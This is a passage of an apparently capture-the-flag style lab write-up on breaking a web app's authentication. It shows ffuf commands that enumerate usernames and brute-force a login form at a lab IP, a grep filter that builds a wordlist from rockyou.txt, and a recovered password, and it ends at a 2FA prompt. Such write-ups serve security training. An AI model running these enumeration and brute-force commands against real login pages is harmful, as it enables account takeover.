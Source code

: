 # 🚘 Skills Assessment

First i create an account:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Then i connect to admin panel:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I created 2 accounts, felix and felix1 to look at some differences:

and i saw the following:

cookie of felix: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

\---------- felix1: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok after a bit of messing arounf i find the path

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we found user gladys

now let's create a custom wordlist according to password policy:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '{12}' > custom_wordlist.txt
```

Now we bruteforce:

```
ffuf -w custom_wordlist.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption><p>dWinaldasD13</p></figcaption></figure>

Now with the creds, let's connect, we can see 2FA:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1360).png" alt=""><figcaption></figcaption></figure>
